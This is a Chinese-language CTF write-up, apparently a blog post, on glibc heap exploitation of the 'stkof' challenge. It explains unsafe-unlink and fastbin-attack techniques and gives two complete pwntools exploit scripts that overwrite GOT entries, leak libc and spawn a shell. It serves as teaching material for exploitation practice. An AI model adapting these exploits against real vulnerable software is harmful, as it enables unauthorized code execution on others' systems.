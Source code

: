 ```yaml
---
title: 浅析linux堆利用
categories:
  - linux_pwn
tags:
  - Null
---
```


在今年早些时候，我曾看过 `house of orange` 这中利用方式，但是当时并没有完完整整的读过 `malloc`、`free`、`malloc_consolidate` 等有关于内存分配的函数。

最近读了这些函数的源码，但是发现代码量有点大啊，逐行的分析可能有点麻烦（主要是懒），所以我决定以题目的实际情况做具体利用分析，有什么不对的地方望大佬指出。



# 0x1 漏洞原理

`linux` 堆利用的漏洞原理，可以看 [`how2heap`](<https://github.com/shellphish/how2heap>) 上面的一些讲解，以及通过 `glibc` 源码进行具体分析，这里就不进行赘述了。



# 0x2 漏洞利用

好吧，我们直接开始刷题吧。



## 0x21 stkof && unlink && fastbin attack

日常 `checksec` ：

```sh
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

从这里我们可以知道程序并没有开启 `PIE` ，还可以写入 `got` 表。

### 0x211 程序分析

首先分析一下整个程序的流程。

![stkof_process](/image/2019-05-24-linux_pwn_heap/stkof_process.png)

这里所有的 chunk 在 `bss` 有一个变量（`chunk_ptr_list`）进行统一的存储，存在一个 `chunk` 的计数器。

这里可以利用的地方主要有三个。

1. 存在创建任意大小的 `chunk` 。
2. 可以给我们所创建的 `chunk` 写入任意大小的字符串（`heap_overflow`）。
3. `chunk` 的计数器在创建 `chunk` 的时候增加，删除 `chunk` 的时候，没有变化？



### 0x212 漏洞利用

这里我想到了两种稍微简单的利用思路，这里总结一下。

##### 第一种思路 && unsafe_unlink

1. 创建三个属于 `smallbin` 链表的 `chunk`，
2. 通过 `heap_overflow` 将第二个 `chunk` 置为 `free` 状态。
3. 使用 `unlink` 将 `bss` 段上存储第二个 `chunk` 的位置覆盖为  `chunk_ptr_list - 0x8`
4. 这个时候我们可以对 `chunk_ptr_list[2]` 进行写入，覆盖掉整个 `chunk_ptr_list`。

```c
chunk_ptr_list[1] = free_got;
chunk_ptr_list[2] = atol_got;
chunk_ptr_list[3] = puts_got;
```

5. 将 `free_got` 修改为 `puts_plt`，然后调用 `free`（`puts_got`） 释放掉 `chunk_ptr_list[3]`，得到 `libc` 的基地址。
6. 通过 `libc` 的基地址得到 `system` 函数的地址，然后使用 `4` 调用 `atol` 函数，输入 `/bin/bash` 得到 `shell`。

`poc` ：

```python
# -*- coding: utf-8 -*-
# !/usr/bin/python env
from pwn import *


def make_chunk(exp_file, chunk_size):
    exp_file.sendline("1")
    exp_file.sendline(str(chunk_size))
    exp_file.recvuntil("OK")


def write_chunk(exp_file, chunk_nums, write_length, write_value):
    exp_file.sendline("2")
    exp_file.sendline(str(chunk_nums))
    exp_file.sendline(str(write_length))
    exp_file.send(str(write_value))
    exp_file.recvuntil("OK")


def delete_chunk(exp_file, chunk_nums,):
    exp_file.sendline("3")
    exp_file.sendline(str(chunk_nums))
    exp_file.recvuntil("OK")


def main():
    debug = 1
    if debug:
        exp_file = process("/root/Desktop/a679df07a8f3a8d590febad45336d031-stkof")
        elf_file = ELF("/root/Desktop/a679df07a8f3a8d590febad45336d031-stkof")
        libc_file = ELF("/lib/x86_64-linux-gnu/libc.so.6")

    # use unsafe_unlink to changed the address of chunk_ptr_list[2] to &chunk_ptr_list - 0x8
    make_chunk(exp_file, 0x20)
    make_chunk(exp_file, 0x100)
    make_chunk(exp_file, 0x100)
    payload_1 = p64(0x0) + p64(0x100)
    payload_1 += p64(0x0000000000602140 + 0x10 - 0x18) + p64(0x0000000000602140 + 0x10 - 0x10)
    payload_1 += "a" * (0x100 - 0x20)
    payload_1 += p64(0x100) + p64(0x110)
    write_chunk(exp_file, 2, 0x110, payload_1)
    delete_chunk(exp_file, 3)

    # Change the free_got to puts_plt, and get the base address of libc.
    payload_2 = p64(0x1) * 2 + p64(elf_file.got['free']) + p64(elf_file.got['atol']) + p64(elf_file.got['puts'])
    write_chunk(exp_file, 2, 0x28, payload_2)
    payload_3 = p64(elf_file.plt['puts'])
    write_chunk(exp_file, 1, 0x8, payload_3)
    exp_file.sendline("3")
    exp_file.sendline(str(3))
    libc_addr = u64(exp_file.recvuntil("OK")[1:7] + "\x00\x00") - libc_file.symbols['puts']
    system_addr = libc_file.symbols['system'] + libc_addr

    # Change the atol_got to system_addr
    payload_4 = p64(system_addr)
    write_chunk(exp_file, 2, 0x8, payload_4)

    # Trigger system("/bin/bash")
    exp_file.sendline("4")
    exp_file.sendline("/bin/bash")

    exp_file.interactive()


if __name__ == '__main__':
    main()
```



##### 第二种思路 && fastbin attack

1. 利用 `heap_overflow` 修改 `fastbin` 链表将 chunk 分配到 `bss` 段
2. 然后利用 `2` 进行任意长度输入，覆盖掉整个 `chunk_ptr_list` 。

```c
chunk_ptr_list[1] = free_got;
chunk_ptr_list[2] = atol_got;
chunk_ptr_list[3] = puts_got;
```

3. 剩下的和 第一种思路 相同。

`poc` ：

```python
# -*- coding: utf-8 -*-
# !/usr/bin/python env
from pwn import *


def make_chunk(exp_file, chunk_size):
    exp_file.sendline("1")
    exp_file.sendline(str(chunk_size))
    exp_file.recvuntil("OK")


def write_chunk(exp_file, chunk_nums, write_length, write_value):
    exp_file.sendline("2")
    exp_file.sendline(str(chunk_nums))
    exp_file.sendline(str(write_length))
    exp_file.send(str(write_value))
    exp_file.recvuntil("OK")


def delete_chunk(exp_file, chunk_nums):
    exp_file.sendline("3")
    exp_file.sendline(str(chunk_nums))
    exp_file.recvuntil("OK")


def main():
    debug = 1
    if debug:
        exp_file = process("/root/Desktop/a679df07a8f3a8d590febad45336d031-stkof")
        elf_file = ELF("/root/Desktop/a679df07a8f3a8d590febad45336d031-stkof")
        libc_file = ELF("/lib/x86_64-linux-gnu/libc.so.6")

    # make many chunk becouse we need change the chunk_ptr_counts to 0x21
    make_chunk(exp_file, 0x100)
    for counts in range(0x2, 0x21):
        make_chunk(exp_file, 0x10)

    # use fastbin attack alloc the chunk to &chunk_ptr_counts - 0x8
    delete_chunk(exp_file, 0x11)
    payload_1 = p64(0x0) * 2
    payload_1 += p64(0x0) + p64(0x21)
    payload_1 += p64(0x0000000000602100 - 0x8) * 1 + p64(0x1)
    write_chunk(exp_file, 0x10, 0x30, payload_1)
    make_chunk(exp_file, 0x10)
    make_chunk(exp_file, 0x10)

    # Change the free_got to puts_plt, and get the base address of libc.
    payload_2 = p64(0x11) * 8 + p64(elf_file.got['free']) + p64(elf_file.got['atol']) + p64(elf_file.got['puts'])
    write_chunk(exp_file, 0x22, 0x58, payload_2)
    payload_3 = p64(elf_file.plt['puts'])
    write_chunk(exp_file, 1, 0x8, payload_3)
    exp_file.sendline("3")
    exp_file.sendline(str(3))
    libc_addr = u64(exp_file.recvuntil("OK")[1:7] + "\x00\x00") - libc_file.symbols['puts']
    system_addr = libc_file.symbols['system'] + libc_addr

    # Change the atol_got to system_addr
    payload_4 = p64(system_addr)
    write_chunk(exp_file, 2, 0x8, payload_4)

    # Trigger system("/bin/bash")
    exp_file.sendline("4")
    exp_file.sendline("/bin/bash")

    exp_file.interactive()


if __name__ == '__main__':
    main()
```



